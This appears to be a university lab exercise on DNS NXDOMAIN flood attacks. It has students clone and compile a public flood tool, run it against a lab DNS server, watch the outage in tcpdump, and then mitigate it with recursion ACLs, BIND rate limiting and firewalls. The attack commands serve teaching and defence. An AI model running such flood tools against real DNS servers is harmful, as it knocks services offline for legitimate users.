 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```bash
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).
For the sake of this task, enable recursion for the helper VM.

Connect to the helper VM.
Clone the following repository and change the working directory:

```bash
$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```bash
$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.1.1");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM):

```bash
$ host scgc.ro dns
Using domain server:
Name: 192.168.1.1
Address: 192.168.1.1#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```bash
$ sudo tcpdump -i br0 udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```bash
$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```bash
$ host scgc.ro 192.168.1.1
Using domain server:
Name: 192.168.1.1
Address: 192.168.1.1#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```bash
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.1.1.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.1.1.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.1.1.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
